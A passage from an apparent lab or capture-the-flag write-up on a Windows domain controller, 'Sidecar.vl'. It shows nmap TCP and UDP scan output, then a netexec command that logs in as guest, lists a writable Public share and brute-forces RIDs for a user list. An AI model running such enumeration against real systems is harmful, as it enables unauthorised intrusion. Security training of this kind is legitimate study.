


As usual I will start by enumerating all the open services over the TCP protocoll stack, and Immediately I don't see anything out of order, counting that it is a DC we are talking about.

```bash
PORT      STATE SERVICE       REASON          VERSION
53/tcp    open  domain        syn-ack ttl 127 Simple DNS Plus
88/tcp    open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2026-03-18 09:19:14Z)
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: Sidecar.vl, Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.Sidecar.vl
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.Sidecar.vl
| Issuer: commonName=Sidecar-CA/domainComponent=Sidecar
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2025-09-15T09:42:34
| Not valid after:  2026-09-15T09:42:34
| MD5:     028b ec47 7ecf b184 2694 104f e934 23cf
| SHA-1:   92d6 e697 8400 3b8c 948f 29f7 76dc 77a1 d624 1cc4
| SHA-256: 7869 7bc9 1780 447a bca7 5cb6 a214 7916 27e3 5ec6 3eed d0e5 13f8 036c 7dc7 2951
| -----BEGIN CERTIFICATE-----
| MIIGGzCCBQOgAwIBAgITWwAAAATvEc4DjbjQrwAAAAAABDANBgkqhkiG9w0BAQsF
| ADBCMRIwEAYKCZImiZPyLGQBGRYCdmwxFzAVBgoJkiaJk/IsZAEZFgdTaWRlY2Fy
| MRMwEQYDVQQDEwpTaWRlY2FyLUNBMB4XDTI1MDkxNTA5NDIzNFoXDTI2MDkxNTA5
| NDIzNFowGjEYMBYGA1UEAxMPREMwMS5TaWRlY2FyLnZsMIIBIjANBgkqhkiG9w0B
| AQEFAAOCAQ8AMIIBCgKCAQEAmMSHB8N0SBYS48DDgI2UcQWuCi/+1jCmdB/2qxCg
| Juhv0B3UN+0gL+GzpoK4W0Agvy+Eac6D1qUjMpmRc9Acn6gNtAJXsFmfPmcu0Epx
| hVhnVNdaTyn/PnFtjMiI68XzFlR+A8sQ6eSvFHDXVlAWUY/pplgMtyEW9yhtt6T9
| Yvj+2p4K5AKBF7XAW+CVz/sSodUbbM3PGIr6qGzohVDYgXrI9fS1AUV+r4YmwQZq
| 1Qda1kuwzDIEOvO78mkUS/1Bc09m2hsoCNams52QgUWGW9S2KGb3Wuy3n0FCwUJc
| gXpDB7L3jRFMnDxGpeBVV2dFyJgNiDratUt1qs2Hcv6rIQIDAQABo4IDMDCCAyww
| LwYJKwYBBAGCNxQCBCIeIABEAG8AbQBhAGkAbgBDAG8AbgB0AHIAbwBsAGwAZQBy
| MB0GA1UdJQQWMBQGCCsGAQUFBwMCBggrBgEFBQcDATAOBgNVHQ8BAf8EBAMCBaAw
| eAYJKoZIhvcNAQkPBGswaTAOBggqhkiG9w0DAgICAIAwDgYIKoZIhvcNAwQCAgCA
| MAsGCWCGSAFlAwQBKjALBglghkgBZQMEAS0wCwYJYIZIAWUDBAECMAsGCWCGSAFl
| AwQBBTAHBgUrDgMCBzAKBggqhkiG9w0DBzAdBgNVHQ4EFgQUf9gDPF1SH9c2rzZH
| 9BpF8O78m1cwHwYDVR0jBBgwFoAUbX1EsFZ4ZEn3ai0XBhAK5SdR0lIwgcQGA1Ud
| HwSBvDCBuTCBtqCBs6CBsIaBrWxkYXA6Ly8vQ049U2lkZWNhci1DQSxDTj1EQzAx
| LENOPUNEUCxDTj1QdWJsaWMlMjBLZXklMjBTZXJ2aWNlcyxDTj1TZXJ2aWNlcyxD
| Tj1Db25maWd1cmF0aW9uLERDPVNpZGVjYXIsREM9dmw/Y2VydGlmaWNhdGVSZXZv
| Y2F0aW9uTGlzdD9iYXNlP29iamVjdENsYXNzPWNSTERpc3RyaWJ1dGlvblBvaW50
| MIG7BggrBgEFBQcBAQSBrjCBqzCBqAYIKwYBBQUHMAKGgZtsZGFwOi8vL0NOPVNp
| ZGVjYXItQ0EsQ049QUlBLENOPVB1YmxpYyUyMEtleSUyMFNlcnZpY2VzLENOPVNl
| cnZpY2VzLENOPUNvbmZpZ3VyYXRpb24sREM9U2lkZWNhcixEQz12bD9jQUNlcnRp
| ZmljYXRlP2Jhc2U/b2JqZWN0Q2xhc3M9Y2VydGlmaWNhdGlvbkF1dGhvcml0eTA7
| BgNVHREENDAyoB8GCSsGAQQBgjcZAaASBBBxad1oAQjcRphvym7mjQ4Jgg9EQzAx
| LlNpZGVjYXIudmwwTgYJKwYBBAGCNxkCBEEwP6A9BgorBgEEAYI3GQIBoC8ELVMt
| MS01LTIxLTM5NzY5MDg4MzctOTM5OTM2ODQ5LTEwMjg2MjU4MTMtMTAwMDANBgkq
| hkiG9w0BAQsFAAOCAQEAPPkvCgftjzz3XcVeFJ70kx7EC7m9vGrsU/QR2VPGamYW
| gfHx3Cl+pI5LDLLRpu29jR65IlQN+Jmutl0xfHcq3LV91gdnhmvUnIv8RfnQUrak
| bWrznUdR+JQIEWbnKt/W8FB4tAG6gMCaf/ji7dKrGMCoF2uCLjn7nxdv37Lu5Tm1
| AxrIzVMs+b7atEJjpRSP0z7lh5WLv+6Xj/LCe7S907dlRThWW7X1XfLEAFhAhkWu
| QNPLOZ0JAHvP4S5rQh++xS9KX4QErzAPe5CPKBlx1Va4DUwVd6DYNKGSVAyOIUlo
| vuIqPhw5Fepqmsrn/fWZq9FVKhT/+tbXM27mlYt/JA==
|_-----END CERTIFICATE-----
|_ssl-date: TLS randomness does not represent time
445/tcp   open  microsoft-ds? syn-ack ttl 127
464/tcp   open  kpasswd5?     syn-ack ttl 127
593/tcp   open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: Sidecar.vl, Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=DC01.Sidecar.vl
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.Sidecar.vl
| Issuer: commonName=Sidecar-CA/domainComponent=Sidecar
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2025-09-15T09:42:34
| Not valid after:  2026-09-15T09:42:34
| MD5:     028b ec47 7ecf b184 2694 104f e934 23cf
| SHA-1:   92d6 e697 8400 3b8c 948f 29f7 76dc 77a1 d624 1cc4
| SHA-256: 7869 7bc9 1780 447a bca7 5cb6 a214 7916 27e3 5ec6 3eed d0e5 13f8 036c 7dc7 2951
| -----BEGIN CERTIFICATE-----
| MIIGGzCCBQOgAwIBAgITWwAAAATvEc4DjbjQrwAAAAAABDANBgkqhkiG9w0BAQsF
| ADBCMRIwEAYKCZImiZPyLGQBGRYCdmwxFzAVBgoJkiaJk/IsZAEZFgdTaWRlY2Fy
| MRMwEQYDVQQDEwpTaWRlY2FyLUNBMB4XDTI1MDkxNTA5NDIzNFoXDTI2MDkxNTA5
| NDIzNFowGjEYMBYGA1UEAxMPREMwMS5TaWRlY2FyLnZsMIIBIjANBgkqhkiG9w0B
| AQEFAAOCAQ8AMIIBCgKCAQEAmMSHB8N0SBYS48DDgI2UcQWuCi/+1jCmdB/2qxCg
| Juhv0B3UN+0gL+GzpoK4W0Agvy+Eac6D1qUjMpmRc9Acn6gNtAJXsFmfPmcu0Epx
| hVhnVNdaTyn/PnFtjMiI68XzFlR+A8sQ6eSvFHDXVlAWUY/pplgMtyEW9yhtt6T9
| Yvj+2p4K5AKBF7XAW+CVz/sSodUbbM3PGIr6qGzohVDYgXrI9fS1AUV+r4YmwQZq
| 1Qda1kuwzDIEOvO78mkUS/1Bc09m2hsoCNams52QgUWGW9S2KGb3Wuy3n0FCwUJc
| gXpDB7L3jRFMnDxGpeBVV2dFyJgNiDratUt1qs2Hcv6rIQIDAQABo4IDMDCCAyww
| LwYJKwYBBAGCNxQCBCIeIABEAG8AbQBhAGkAbgBDAG8AbgB0AHIAbwBsAGwAZQBy
| MB0GA1UdJQQWMBQGCCsGAQUFBwMCBggrBgEFBQcDATAOBgNVHQ8BAf8EBAMCBaAw
| eAYJKoZIhvcNAQkPBGswaTAOBggqhkiG9w0DAgICAIAwDgYIKoZIhvcNAwQCAgCA
| MAsGCWCGSAFlAwQBKjALBglghkgBZQMEAS0wCwYJYIZIAWUDBAECMAsGCWCGSAFl
| AwQBBTAHBgUrDgMCBzAKBggqhkiG9w0DBzAdBgNVHQ4EFgQUf9gDPF1SH9c2rzZH
| 9BpF8O78m1cwHwYDVR0jBBgwFoAUbX1EsFZ4ZEn3ai0XBhAK5SdR0lIwgcQGA1Ud
| HwSBvDCBuTCBtqCBs6CBsIaBrWxkYXA6Ly8vQ049U2lkZWNhci1DQSxDTj1EQzAx
| LENOPUNEUCxDTj1QdWJsaWMlMjBLZXklMjBTZXJ2aWNlcyxDTj1TZXJ2aWNlcyxD
| Tj1Db25maWd1cmF0aW9uLERDPVNpZGVjYXIsREM9dmw/Y2VydGlmaWNhdGVSZXZv
| Y2F0aW9uTGlzdD9iYXNlP29iamVjdENsYXNzPWNSTERpc3RyaWJ1dGlvblBvaW50
| MIG7BggrBgEFBQcBAQSBrjCBqzCBqAYIKwYBBQUHMAKGgZtsZGFwOi8vL0NOPVNp
| ZGVjYXItQ0EsQ049QUlBLENOPVB1YmxpYyUyMEtleSUyMFNlcnZpY2VzLENOPVNl
| cnZpY2VzLENOPUNvbmZpZ3VyYXRpb24sREM9U2lkZWNhcixEQz12bD9jQUNlcnRp
| ZmljYXRlP2Jhc2U/b2JqZWN0Q2xhc3M9Y2VydGlmaWNhdGlvbkF1dGhvcml0eTA7
| BgNVHREENDAyoB8GCSsGAQQBgjcZAaASBBBxad1oAQjcRphvym7mjQ4Jgg9EQzAx
| LlNpZGVjYXIudmwwTgYJKwYBBAGCNxkCBEEwP6A9BgorBgEEAYI3GQIBoC8ELVMt
| MS01LTIxLTM5NzY5MDg4MzctOTM5OTM2ODQ5LTEwMjg2MjU4MTMtMTAwMDANBgkq
| hkiG9w0BAQsFAAOCAQEAPPkvCgftjzz3XcVeFJ70kx7EC7m9vGrsU/QR2VPGamYW
| gfHx3Cl+pI5LDLLRpu29jR65IlQN+Jmutl0xfHcq3LV91gdnhmvUnIv8RfnQUrak
| bWrznUdR+JQIEWbnKt/W8FB4tAG6gMCaf/ji7dKrGMCoF2uCLjn7nxdv37Lu5Tm1
| AxrIzVMs+b7atEJjpRSP0z7lh5WLv+6Xj/LCe7S907dlRThWW7X1XfLEAFhAhkWu
| QNPLOZ0JAHvP4S5rQh++xS9KX4QErzAPe5CPKBlx1Va4DUwVd6DYNKGSVAyOIUlo
| vuIqPhw5Fepqmsrn/fWZq9FVKhT/+tbXM27mlYt/JA==
|_-----END CERTIFICATE-----
3268/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: Sidecar.vl, Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=DC01.Sidecar.vl
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.Sidecar.vl
| Issuer: commonName=Sidecar-CA/domainComponent=Sidecar
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2025-09-15T09:42:34
| Not valid after:  2026-09-15T09:42:34
| MD5:     028b ec47 7ecf b184 2694 104f e934 23cf
| SHA-1:   92d6 e697 8400 3b8c 948f 29f7 76dc 77a1 d624 1cc4
| SHA-256: 7869 7bc9 1780 447a bca7 5cb6 a214 7916 27e3 5ec6 3eed d0e5 13f8 036c 7dc7 2951
| -----BEGIN CERTIFICATE-----
| MIIGGzCCBQOgAwIBAgITWwAAAATvEc4DjbjQrwAAAAAABDANBgkqhkiG9w0BAQsF
| ADBCMRIwEAYKCZImiZPyLGQBGRYCdmwxFzAVBgoJkiaJk/IsZAEZFgdTaWRlY2Fy
| MRMwEQYDVQQDEwpTaWRlY2FyLUNBMB4XDTI1MDkxNTA5NDIzNFoXDTI2MDkxNTA5
| NDIzNFowGjEYMBYGA1UEAxMPREMwMS5TaWRlY2FyLnZsMIIBIjANBgkqhkiG9w0B
| AQEFAAOCAQ8AMIIBCgKCAQEAmMSHB8N0SBYS48DDgI2UcQWuCi/+1jCmdB/2qxCg
| Juhv0B3UN+0gL+GzpoK4W0Agvy+Eac6D1qUjMpmRc9Acn6gNtAJXsFmfPmcu0Epx
| hVhnVNdaTyn/PnFtjMiI68XzFlR+A8sQ6eSvFHDXVlAWUY/pplgMtyEW9yhtt6T9
| Yvj+2p4K5AKBF7XAW+CVz/sSodUbbM3PGIr6qGzohVDYgXrI9fS1AUV+r4YmwQZq
| 1Qda1kuwzDIEOvO78mkUS/1Bc09m2hsoCNams52QgUWGW9S2KGb3Wuy3n0FCwUJc
| gXpDB7L3jRFMnDxGpeBVV2dFyJgNiDratUt1qs2Hcv6rIQIDAQABo4IDMDCCAyww
| LwYJKwYBBAGCNxQCBCIeIABEAG8AbQBhAGkAbgBDAG8AbgB0AHIAbwBsAGwAZQBy
| MB0GA1UdJQQWMBQGCCsGAQUFBwMCBggrBgEFBQcDATAOBgNVHQ8BAf8EBAMCBaAw
| eAYJKoZIhvcNAQkPBGswaTAOBggqhkiG9w0DAgICAIAwDgYIKoZIhvcNAwQCAgCA
| MAsGCWCGSAFlAwQBKjALBglghkgBZQMEAS0wCwYJYIZIAWUDBAECMAsGCWCGSAFl
| AwQBBTAHBgUrDgMCBzAKBggqhkiG9w0DBzAdBgNVHQ4EFgQUf9gDPF1SH9c2rzZH
| 9BpF8O78m1cwHwYDVR0jBBgwFoAUbX1EsFZ4ZEn3ai0XBhAK5SdR0lIwgcQGA1Ud
| HwSBvDCBuTCBtqCBs6CBsIaBrWxkYXA6Ly8vQ049U2lkZWNhci1DQSxDTj1EQzAx
| LENOPUNEUCxDTj1QdWJsaWMlMjBLZXklMjBTZXJ2aWNlcyxDTj1TZXJ2aWNlcyxD
| Tj1Db25maWd1cmF0aW9uLERDPVNpZGVjYXIsREM9dmw/Y2VydGlmaWNhdGVSZXZv
| Y2F0aW9uTGlzdD9iYXNlP29iamVjdENsYXNzPWNSTERpc3RyaWJ1dGlvblBvaW50
| MIG7BggrBgEFBQcBAQSBrjCBqzCBqAYIKwYBBQUHMAKGgZtsZGFwOi8vL0NOPVNp
| ZGVjYXItQ0EsQ049QUlBLENOPVB1YmxpYyUyMEtleSUyMFNlcnZpY2VzLENOPVNl
| cnZpY2VzLENOPUNvbmZpZ3VyYXRpb24sREM9U2lkZWNhcixEQz12bD9jQUNlcnRp
| ZmljYXRlP2Jhc2U/b2JqZWN0Q2xhc3M9Y2VydGlmaWNhdGlvbkF1dGhvcml0eTA7
| BgNVHREENDAyoB8GCSsGAQQBgjcZAaASBBBxad1oAQjcRphvym7mjQ4Jgg9EQzAx
| LlNpZGVjYXIudmwwTgYJKwYBBAGCNxkCBEEwP6A9BgorBgEEAYI3GQIBoC8ELVMt
| MS01LTIxLTM5NzY5MDg4MzctOTM5OTM2ODQ5LTEwMjg2MjU4MTMtMTAwMDANBgkq
| hkiG9w0BAQsFAAOCAQEAPPkvCgftjzz3XcVeFJ70kx7EC7m9vGrsU/QR2VPGamYW
| gfHx3Cl+pI5LDLLRpu29jR65IlQN+Jmutl0xfHcq3LV91gdnhmvUnIv8RfnQUrak
| bWrznUdR+JQIEWbnKt/W8FB4tAG6gMCaf/ji7dKrGMCoF2uCLjn7nxdv37Lu5Tm1
| AxrIzVMs+b7atEJjpRSP0z7lh5WLv+6Xj/LCe7S907dlRThWW7X1XfLEAFhAhkWu
| QNPLOZ0JAHvP4S5rQh++xS9KX4QErzAPe5CPKBlx1Va4DUwVd6DYNKGSVAyOIUlo
| vuIqPhw5Fepqmsrn/fWZq9FVKhT/+tbXM27mlYt/JA==
|_-----END CERTIFICATE-----
3269/tcp  open  ssl/ldap      syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: Sidecar.vl, Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=DC01.Sidecar.vl
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.Sidecar.vl
| Issuer: commonName=Sidecar-CA/domainComponent=Sidecar
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2025-09-15T09:42:34
| Not valid after:  2026-09-15T09:42:34
| MD5:     028b ec47 7ecf b184 2694 104f e934 23cf
| SHA-1:   92d6 e697 8400 3b8c 948f 29f7 76dc 77a1 d624 1cc4
| SHA-256: 7869 7bc9 1780 447a bca7 5cb6 a214 7916 27e3 5ec6 3eed d0e5 13f8 036c 7dc7 2951
| -----BEGIN CERTIFICATE-----
| MIIGGzCCBQOgAwIBAgITWwAAAATvEc4DjbjQrwAAAAAABDANBgkqhkiG9w0BAQsF
| ADBCMRIwEAYKCZImiZPyLGQBGRYCdmwxFzAVBgoJkiaJk/IsZAEZFgdTaWRlY2Fy
| MRMwEQYDVQQDEwpTaWRlY2FyLUNBMB4XDTI1MDkxNTA5NDIzNFoXDTI2MDkxNTA5
| NDIzNFowGjEYMBYGA1UEAxMPREMwMS5TaWRlY2FyLnZsMIIBIjANBgkqhkiG9w0B
| AQEFAAOCAQ8AMIIBCgKCAQEAmMSHB8N0SBYS48DDgI2UcQWuCi/+1jCmdB/2qxCg
| Juhv0B3UN+0gL+GzpoK4W0Agvy+Eac6D1qUjMpmRc9Acn6gNtAJXsFmfPmcu0Epx
| hVhnVNdaTyn/PnFtjMiI68XzFlR+A8sQ6eSvFHDXVlAWUY/pplgMtyEW9yhtt6T9
| Yvj+2p4K5AKBF7XAW+CVz/sSodUbbM3PGIr6qGzohVDYgXrI9fS1AUV+r4YmwQZq
| 1Qda1kuwzDIEOvO78mkUS/1Bc09m2hsoCNams52QgUWGW9S2KGb3Wuy3n0FCwUJc
| gXpDB7L3jRFMnDxGpeBVV2dFyJgNiDratUt1qs2Hcv6rIQIDAQABo4IDMDCCAyww
| LwYJKwYBBAGCNxQCBCIeIABEAG8AbQBhAGkAbgBDAG8AbgB0AHIAbwBsAGwAZQBy
| MB0GA1UdJQQWMBQGCCsGAQUFBwMCBggrBgEFBQcDATAOBgNVHQ8BAf8EBAMCBaAw
| eAYJKoZIhvcNAQkPBGswaTAOBggqhkiG9w0DAgICAIAwDgYIKoZIhvcNAwQCAgCA
| MAsGCWCGSAFlAwQBKjALBglghkgBZQMEAS0wCwYJYIZIAWUDBAECMAsGCWCGSAFl
| AwQBBTAHBgUrDgMCBzAKBggqhkiG9w0DBzAdBgNVHQ4EFgQUf9gDPF1SH9c2rzZH
| 9BpF8O78m1cwHwYDVR0jBBgwFoAUbX1EsFZ4ZEn3ai0XBhAK5SdR0lIwgcQGA1Ud
| HwSBvDCBuTCBtqCBs6CBsIaBrWxkYXA6Ly8vQ049U2lkZWNhci1DQSxDTj1EQzAx
| LENOPUNEUCxDTj1QdWJsaWMlMjBLZXklMjBTZXJ2aWNlcyxDTj1TZXJ2aWNlcyxD
| Tj1Db25maWd1cmF0aW9uLERDPVNpZGVjYXIsREM9dmw/Y2VydGlmaWNhdGVSZXZv
| Y2F0aW9uTGlzdD9iYXNlP29iamVjdENsYXNzPWNSTERpc3RyaWJ1dGlvblBvaW50
| MIG7BggrBgEFBQcBAQSBrjCBqzCBqAYIKwYBBQUHMAKGgZtsZGFwOi8vL0NOPVNp
| ZGVjYXItQ0EsQ049QUlBLENOPVB1YmxpYyUyMEtleSUyMFNlcnZpY2VzLENOPVNl
| cnZpY2VzLENOPUNvbmZpZ3VyYXRpb24sREM9U2lkZWNhcixEQz12bD9jQUNlcnRp
| ZmljYXRlP2Jhc2U/b2JqZWN0Q2xhc3M9Y2VydGlmaWNhdGlvbkF1dGhvcml0eTA7
| BgNVHREENDAyoB8GCSsGAQQBgjcZAaASBBBxad1oAQjcRphvym7mjQ4Jgg9EQzAx
| LlNpZGVjYXIudmwwTgYJKwYBBAGCNxkCBEEwP6A9BgorBgEEAYI3GQIBoC8ELVMt
| MS01LTIxLTM5NzY5MDg4MzctOTM5OTM2ODQ5LTEwMjg2MjU4MTMtMTAwMDANBgkq
| hkiG9w0BAQsFAAOCAQEAPPkvCgftjzz3XcVeFJ70kx7EC7m9vGrsU/QR2VPGamYW
| gfHx3Cl+pI5LDLLRpu29jR65IlQN+Jmutl0xfHcq3LV91gdnhmvUnIv8RfnQUrak
| bWrznUdR+JQIEWbnKt/W8FB4tAG6gMCaf/ji7dKrGMCoF2uCLjn7nxdv37Lu5Tm1
| AxrIzVMs+b7atEJjpRSP0z7lh5WLv+6Xj/LCe7S907dlRThWW7X1XfLEAFhAhkWu
| QNPLOZ0JAHvP4S5rQh++xS9KX4QErzAPe5CPKBlx1Va4DUwVd6DYNKGSVAyOIUlo
| vuIqPhw5Fepqmsrn/fWZq9FVKhT/+tbXM27mlYt/JA==
|_-----END CERTIFICATE-----
3389/tcp  open  ms-wbt-server syn-ack ttl 127 Microsoft Terminal Services
| ssl-cert: Subject: commonName=DC01.Sidecar.vl
| Issuer: commonName=DC01.Sidecar.vl
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-03-17T03:22:43
| Not valid after:  2026-09-16T03:22:43
| MD5:     3348 3b8a 7f8e 0ddd 0d58 89e5 c61d 2e55
| SHA-1:   b72c b61b 83ef 2aea b8b8 203e bc1d 3d7e 5486 f748
| SHA-256: 4c01 e3a0 970c a4ae 9e8c 3c06 5547 efad a5b5 c51b 4147 ca29 e4b1 32ad d55b 85f8
| -----BEGIN CERTIFICATE-----
| MIIC4jCCAcqgAwIBAgIQZdDeEx1WgaRFdGG9mxB/KzANBgkqhkiG9w0BAQsFADAa
| MRgwFgYDVQQDEw9EQzAxLlNpZGVjYXIudmwwHhcNMjYwMzE3MDMyMjQzWhcNMjYw
| OTE2MDMyMjQzWjAaMRgwFgYDVQQDEw9EQzAxLlNpZGVjYXIudmwwggEiMA0GCSqG
| SIb3DQEBAQUAA4IBDwAwggEKAoIBAQDs22LAHNwwLkcxWwJP9nc8IZHR97r7wAeV
| gA/FRh8iZMnvKlpf905THEUixwUp+StM5CruUx0a39+/atXtnpAgjpaPaPgmL97c
| mNh5PjICiHK90XXajmB29rd1kcnDGztATmxP+2a3P70tMwvWPH14hXK/cGNYnsxk
| rnmdDnFTzsQDF23tQni0BAXHeeXHCMr79h+nePqe4R72WeeWHM+VNHuwYk9+WLcD
| Jz+8ohoXEqeo+SOiC9OQZsQwlZfztmvNJbxBuMnQBanwQu3BX/cUX9dYco1zQZjE
| eSpgv+RQ4D6tKjK7LeqHivX6+IA6ntl4dWRjNcqacWn8TJxAKa45AgMBAAGjJDAi
| MBMGA1UdJQQMMAoGCCsGAQUFBwMBMAsGA1UdDwQEAwIEMDANBgkqhkiG9w0BAQsF
| AAOCAQEAM00ROPFoN2REq47dIXisUUYWVb5SvCOTMyk74BC2mOOkSi9ZXdZ+dtpU
| D3Iz/y3F5JB+0/M3hvYfXeOloLnRDz0G6A/esebFo2xQGy0iSXJ5ZbF4Kf8KmxOO
| 6ouua5Nj2VkNRNXtSTHDbYy2X5vs5YXbFrjkwlkQiR4Iw9w1jll8JcawnTNAkIk2
| jpf7ovbXq9IO8lqp3/CStKe2+1zLc+3roia9yH3NPFXPuvGa24YPG17xLR/hGihy
| vKobbL1tHM80fZK/DoxZMonmGDiQvsgXiKN0/474W63DZocJAioQxNj68J/ty8rY
| atO9ly2WTIlIMX+IyNNc1szhESVM0A==
|_-----END CERTIFICATE-----
| rdp-ntlm-info: 
|   Target_Name: SIDECAR
|   NetBIOS_Domain_Name: SIDECAR
|   NetBIOS_Computer_Name: DC01
|   DNS_Domain_Name: Sidecar.vl
|   DNS_Computer_Name: DC01.Sidecar.vl
|   Product_Version: 10.0.20348
|_  System_Time: 2026-03-18T09:20:08+00:00
|_ssl-date: 2026-03-18T09:20:48+00:00; +1s from scanner time.
5985/tcp  open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        syn-ack ttl 127 .NET Message Framing
49664/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49667/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49669/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
55483/tcp open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
55484/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
55486/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
55506/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
55509/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
61434/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2022|2012|2016 (89%)
OS CPE: cpe:/o:microsoft:windows_server_2022 cpe:/o:microsoft:windows_server_2012:r2 cpe:/o:microsoft:windows_server_2016
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
Aggressive OS guesses: Microsoft Windows Server 2022 (89%), Microsoft Windows Server 2012 R2 (85%), Microsoft Windows Server 2016 (85%)
No exact OS matches for host (test conditions non-ideal).
TCP/IP fingerprint:
SCAN(V=7.98%E=4%D=3/18%OT=53%CT=%CU=%PV=Y%DS=2%DC=T%G=N%TM=69BA6E71%P=x86_64-pc-linux-gnu)
SEQ(SP=105%GCD=1%ISR=106%TI=I%II=I%SS=S%TS=A)
SEQ(SP=108%GCD=1%ISR=10D%TI=I%II=I%SS=S%TS=A)
OPS(O1=M552NW8ST11%O2=M552NW8ST11%O3=M552NW8NNT11%O4=M552NW8ST11%O5=M552NW8ST11%O6=M552ST11)
WIN(W1=FFFF%W2=FFFF%W3=FFFF%W4=FFFF%W5=FFFF%W6=FFDC)
ECN(R=Y%DF=Y%TG=80%W=FFFF%O=M552NW8NNS%CC=Y%Q=)
T1(R=Y%DF=Y%TG=80%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=N)
T3(R=N)
T4(R=N)
U1(R=N)
IE(R=Y%DFI=N%TG=80%CD=Z)

Uptime guess: 0.249 days (since Wed Mar 18 04:22:20 2026)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=261 (Good luck!)
IP ID Sequence Generation: Incremental
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

```

To be on the safe side I also performed a quick scan over the common UDP ports without showing traces of uncommon services running on the machine.

```bash
─$ nmap -F -sU 10.13.38.47                                                                        
Starting Nmap 7.98 ( https://nmap.org ) at 2026-03-18 10:27 +0100
Nmap scan report for 10.13.38.47
Host is up (0.025s latency).
Not shown: 97 open|filtered udp ports (no-response)
PORT    STATE SERVICE
53/udp  open  domain
88/udp  open  kerberos-sec
123/udp open  ntp

Nmap done: 1 IP address (1 host up) scanned in 2.71 seconds

```

# SMB

My first idea here is to check if the defaut guest user is still active and indeed it was, as you see I have write permission over the Public share and I was able to obtain the user list from the DC by bruting thru the RIDs.

```bash
─$ netexec smb DC01 -u guest -p '' --shares --rid-brute
SMB         10.13.38.47     445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:Sidecar.vl) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.13.38.47     445    DC01             [+] Sidecar.vl\guest: 
SMB         10.13.38.47     445    DC01             [*] Enumerated shares
SMB         10.13.38.47     445    DC01             Share           Permissions     Remark
SMB         10.13.38.47     445    DC01             -----           -----------     ------
SMB         10.13.38.47     445    DC01             ADMIN$                          Remote Admin
SMB         10.13.38.47     445    DC01             C$                              Default share
SMB         10.13.38.47     445    DC01             IPC$            READ            Remote IPC
SMB         10.13.38.47     445    DC01             NETLOGON                        Logon server share 
SMB         10.13.38.47     445    DC01             Public          READ,WRITE      
